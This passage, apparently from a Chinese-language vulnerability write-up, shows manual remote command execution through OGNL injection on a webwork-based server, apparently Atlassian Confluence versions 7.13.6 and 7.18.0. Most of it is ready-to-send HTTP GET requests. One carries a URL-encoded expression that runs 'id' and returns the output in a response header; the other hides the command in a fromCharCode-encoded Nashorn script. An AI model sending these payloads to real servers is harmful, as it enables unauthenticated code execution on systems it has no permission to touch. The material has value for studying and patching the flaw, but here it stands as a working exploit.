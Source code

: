 
### 3、命令执行 - 手工
其中使用到的OGNL表达式为：
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}

经过URL编码后，构造GET请求数据包：

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: 192.168.50.227:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Length: 2


```

发送数据包，命令执行回显在X-Cmd-Response：

![image](https://user-images.githubusercontent.com/84888757/172955165-d090d6bc-e94f-4e7b-9a91-ca5291ae0988.png)

7.18.0 的payload在7.13.6一样能用
```
GET /%24%7BClass.forName(%22com.opensymphony.webwork.ServletActionContext%22).getMethod(%22getResponse%22%2Cnull).invoke(null%2Cnull).setHeader(%22X-CMD%22%2CClass.forName(%22javax.script.ScriptEngineManager%22).newInstance().getEngineByName(%22nashorn%22).eval(%22eval(String.fromCharCode(118%2C97%2C114%2C32%2C115%2C61%2C39%2C39%2C59%2C118%2C97%2C114%2C32%2C112%2C112%2C32%2C61%2C32%2C106%2C97%2C118%2C97%2C46%2C108%2C97%2C110%2C103%2C46%2C82%2C117%2C110%2C116%2C105%2C109%2C101%2C46%2C103%2C101%2C116%2C82%2C117%2C110%2C116%2C105%2C109%2C101%2C40%2C41%2C46%2C101%2C120%2C101%2C99%2C40%2C39%2C105%2C100%2C39%2C41%2C46%2C103%2C101%2C116%2C73%2C110%2C112%2C117%2C116%2C83%2C116%2C114%2C101%2C97%2C109%2C40%2C41%2C59%2C119%2C104%2C105%2C108%2C101%2C32%2C40%2C49%2C41%2C32%2C123%2C118%2C97%2C114%2C32%2C98%2C32%2C61%2C32%2C112%2C112%2C46%2C114%2C101%2C97%2C100%2C40%2C41%2C59%2C105%2C102%2C32%2C40%2C98%2C32%2C61%2C61%2C32%2C45%2C49%2C41%2C32%2C123%2C98%2C114%2C101%2C97%2C107%2C59%2C125%2C115%2C61%2C115%2C43%2C83%2C116%2C114%2C105%2C110%2C103%2C46%2C102%2C114%2C111%2C109%2C67%2C104%2C97%2C114%2C67%2C111%2C100%2C101%2C40%2C98%2C41%2C125%2C59%2C115))%22))%7D/ HTTP/1.1
Host: 192.168.50.227:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Length: 0


```
